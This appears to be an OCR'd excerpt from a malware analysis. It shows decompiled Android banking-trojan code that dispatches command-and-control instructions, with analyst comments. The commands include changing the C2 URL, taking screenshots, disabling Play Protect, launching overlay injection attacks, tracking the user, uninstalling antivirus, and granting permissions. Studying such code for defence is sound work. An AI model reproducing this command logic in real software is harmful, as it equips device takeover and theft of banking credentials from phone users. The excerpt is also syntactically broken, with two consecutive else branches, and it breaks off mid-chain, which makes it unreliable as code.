 ```cs
 try {
                JSONObject jSONObject2 = new JSONObject(s5);
                if(jSONObject2.has("COMMAND")) {
                    String s6 = jSONObject2.getString("COMMAND");
                    RunnablePingServer.errorsCount = 0;
                    if(s6.equals("NEW_URL")) { // Update the C2 server URL
                        String s7 = jSONObject2.getString("URL");
                        globalService0.Tools.Log(globalService0, "[COMMANDS] Set new URL to: " + s7, Boolean.valueOf(true));
                        globalService0.store.set(globalService0, "URL", s7);
                    }
                    else if(s6.equals("CHANGE_URL")) {
                        String s8 = jSONObject2.getString("URL");
                        globalService0.Tools.changeMainURL(globalService0, s8);
                    }
                    else if(s6.equals("TAKE_SCREENSHOT")) {
                        globalService0.Tools.takeScreenshot(globalService0);
                    }
                    else if(s6.equals("UNLOCK_PLAYSTORE")) { //disable play protect
                        globalService0.Tools.unlockPlayStore(globalService0);
                    }
                    else if(s6.equals("SAVE_LOGCAT")) { // save logs file from the device
                        globalService0.Tools.saveLogCat(globalService0);
                    }
                    else if(s6.equals("KILL")) { // to disable the bot
                        globalService0.Tools.killBot(globalService0);
                    }
                    else {
                        boolean z1 = s6.equals("START_INJ"); // start performing the overlay attack
                        if(z1) {
                            String s11 = jSONObject2.getString("PKG");
                            globalService0.Tools.startInj(globalService0, s11);
                        }
                        else if(s6.equals("START_APP")) { // to open any app
                            String s12 = jSONObject2.getString("PKG");
                            globalService0.Tools.startApp(globalService0, s12);
                        }
                        else if(s6.equals("GET_APPS")) {// get installed apps on the device
                            globalService0.Tools.getInstalledApps(globalService0);
                        }
                        else if(s6.equals("UNINSTALL_APP")) { // uninstall any specific app
                            String s13 = jSONObject2.getString("PKG");
                            String s14 = jSONObject2.getString("SELF");
                            globalService0.Tools.uninstall(globalService0, s13, s14);
                        }
                    }
                    else {
                            boolean z2 = s6.equals("TRACKING_ON"); // Track the movement of the user
                            if(z2) {
                                globalService0.store.set(globalService0, "NOTIFY_PKG_CHANGE", "true");
                                Utils.msg(globalService0, "Tracking movement is ON");
                            }
                            else if(s6.equals("TRACKING_OFF")) { // stop tracking
                                globalService0.store.set(globalService0, "NOTIFY_PKG_CHANGE", "false");
                                Utils.msg(globalService0, "Tracking movement is OFF");
                            }
                            else if(s6.equals("CLEAN_AV")) { // uninstall AV if found
                                globalService0.Tools.uninstall_av(globalService0);
                            }
                            else if(s6.equals("START_PERMISSIONS")) { // start allowing permissions
```
